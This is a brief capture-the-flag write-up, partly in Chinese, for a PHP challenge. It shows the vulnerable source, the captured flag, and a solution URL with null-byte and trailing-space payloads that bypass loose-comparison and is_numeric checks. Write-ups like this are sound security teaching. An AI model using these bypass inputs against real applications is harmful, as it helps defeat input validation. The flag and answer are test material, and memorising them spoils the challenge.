 ```php
<?php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?>
Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}
```

if($a==0 and $a) 绕过 前面加%00  
is_numeric 绕过，在数字后面加%20  

http://111.200.241.244:50850/?a=%000&b=2234%20